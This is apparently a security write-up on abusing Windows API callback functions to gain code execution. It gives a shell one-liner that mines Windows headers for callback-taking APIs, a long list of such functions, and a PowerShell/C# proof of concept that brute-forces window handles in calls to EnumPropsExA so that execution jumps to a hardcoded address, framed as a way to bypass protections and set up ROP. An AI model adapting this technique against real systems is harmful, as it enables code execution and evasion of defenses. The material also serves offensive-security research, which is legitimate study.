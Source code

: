 ## Execution Via Callback

### Identification

To identify the Windows callback functions which can get us execution we need to check for callbacks in the Windows API. We can download the Windows API documentation from GitHub and search all of the markdown files for patterns that indicate the presence of a callback in the API. 

```bash
cat \*.h |tr '\\r\\n' ' ' |tr ';' '\\n' |sed -e 's/--//g' -e 's/ / /g' |grep -iE "\_\_in.+(Func|Proc|CallBack| lpfn| lpproc)," |grep -oE " \[a-zA-Z\]+\\(\[a-zA-Z0-9\*\_, \]+\\)" |grep "\_\_in" |cut -d"(" -f1 |sort -u |sed -e 's/^ //g'
```

This gives us a list of API calls that accept an arbitrary address for the callback function. 

```bash
AddClusterNode
BluetoothRegisterForAuthentication
CMTranslateRGBsExt
CallWindowProcA
CallWindowProcW
CreateCluster
CreateDialogIndirectParamA
CreateDialogIndirectParamW
CreateDialogParamA
CreateDialogParamW
CreatePrintAsyncNotifyChannel
CreateTimerQueueTimer
DavRegisterAuthCallback
DbgHelpCreateUserDump
DbgHelpCreateUserDumpW
DdeInitializeA
DdeInitializeW
DestroyCluster
DialogBoxIndirectParamA
DialogBoxIndirectParamW
DialogBoxParamA
DialogBoxParamW
DirectSoundCaptureEnumerateA
DirectSoundCaptureEnumerateW
DirectSoundEnumerateA
DirectSoundEnumerateW
DrawStateA
DrawStateW
EnumCalendarInfoA
EnumCalendarInfoW
EnumChildWindows
EnumDateFormatsA
EnumDateFormatsW
EnumDesktopWindows
EnumDesktopsA
EnumDesktopsW
EnumEnhMetaFile
EnumFontFamiliesA
EnumFontFamiliesExA
EnumFontFamiliesExW
EnumFontFamiliesW
EnumFontsA
EnumFontsW
EnumICMProfilesA
EnumICMProfilesW
EnumLanguageGroupLocalesA
EnumLanguageGroupLocalesW
EnumMetaFile
EnumObjects
EnumPropsExA
EnumPropsExW
EnumPwrSchemes
EnumResourceLanguagesA
EnumResourceLanguagesExA
EnumResourceLanguagesExW
EnumResourceLanguagesW
EnumResourceNamesA
EnumResourceNamesExA
EnumResourceNamesExW
EnumResourceNamesW
EnumResourceTypesA
EnumResourceTypesW
EnumResourceTypesExA
EnumResourceTypesExW
EnumResourceTypesW
EnumSystemCodePagesA
EnumSystemCodePagesW
EnumSystemLanguageGroupsA
EnumSystemLanguageGroupsW
EnumSystemLocalesA
EnumSystemLocalesW
EnumThreadWindows
EnumTimeFormatsA
EnumTimeFormatsW
EnumUILanguagesA
EnumUILanguagesW
EnumWindowStationsA
EnumWindowStationsW
EnumWindows
EnumerateLoadedModules
EnumerateLoadedModulesEx
EnumerateLoadedModulesExW
EventRegister
GetApplicationRecoveryCallback
GrayStringA
GrayStringW
KsCreateFilterFactory
KsMoveIrpsOnCancelableQueue
KsStreamPointerClone
KsStreamPointerScheduleTimeout
LineDDA
MFBeginRegisterWorkQueueWithMMCSS
MFBeginUnregisterWorkQueueWithMMCSS
MFPCreateMediaPlayer
MQReceiveMessage
MQReceiveMessageByLookupId
NotifyIpInterfaceChange
NotifyStableUnicastIpAddressTable
NotifyTeredoPortChange
NotifyUnicastIpAddressChange
PerfStartProvider
PlaExtractCabinet
ReadEncryptedFileRaw
RegisterApplicationRecoveryCallback
RegisterForPrintAsyncNotifications
RegisterServiceCtrlHandlerExA
RegisterServiceCtrlHandlerExW
RegisterWaitForSingleObject
RegisterWaitForSingleObjectEx
SHCreateThread
SHCreateThreadWithHandle
SendMessageCallbackA
SendMessageCallbackW
SetTimerQueueTimer
SetWinEventHook
SetWindowsHookExA
SetWindowsHookExW
SetupDiRegisterDeviceInfo
SymEnumLines
SymEnumLinesW
SymEnumProcesses
SymEnumSourceLines
SymEnumSourceLinesW
SymEnumSymbols
SymEnumSymbolsForAddr
SymEnumSymbolsForAddrW
SymEnumSymbolsW
SymEnumTypes
SymEnumTypesByName
SymEnumTypesByNameW
SymEnumTypesW
SymEnumerateModules
SymEnumerateModules64
SymEnumerateSymbols
SymEnumerateSymbols64
SymEnumerateSymbolsW
SymSearch
SymSearchW
TranslateBitmapBits
WPUQueryBlockingCallback
WdsCliTransferFile
WdsCliTransferImage
WinBioCaptureSampleWithCallback
WinBioEnrollCaptureWithCallback
WinBioIdentifyWithCallback
WinBioLocateSensorWithCallback
WinBioRegisterEventMonitor
WinBioVerifyWithCallback
WlanRegisterNotification
WriteEncryptedFileRaw
WsPullBytes
WsPushBytes
WsReadEnvelopeStart
WsRegisterOperationForCancel
WsWriteEnvelopeStart
mciSetYieldProc
midiInOpen
midiOutOpen
mixerOpen
mmioInstallIOProcA
mmioInstallIOProcW
waveInOpen
waveOutOpen
```


As we can see from the list, there are many API calls to choose from. Any of the listed API calls should work for simple bypasses. However, if we want to do something more fancy like ROP we will need to find API calls that take an argument. 


### PoC
PowerShell C# callback execution proof of concept.

```powershell
function Update-EnumPropsExA{
	$sig = @"

[DllImport("user32.dll", EntryPoint="EnumPropsExA")]
public static extern int EnumPropsExA( uint hwind, uint lpfunc, string lParam);

const int HWIND =  0x20592;
const int LPFUNC = 0x5F15E3B8;
const string LPARAM = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";

public static void UpdateEnumPropsExA(){
	uint i;
	int outval;
	uint tmp = 0x00ffffffff;
	for (i = 0x00000011; i < tmp; i++){
		outval = EnumPropsExA(i, LPFUNC, LPARAM);
		if (outval == 1337){
			break;
			}
		}
}
"@
	Add-Type -MemberDefinition $sig -Name EnumPropsExASPI -Namespace User32
	[User32.EnumPropsExASPI]::UpdateEnumPropsExA()
}


```

In this example, we are bruteforcing the Window Handle argument. Execution will be transferred to the value of LPFUNC afte going through user32.dll EnumPropsExA. 



Source: http://ropgadget.com/posts/abusing_win_functions.html

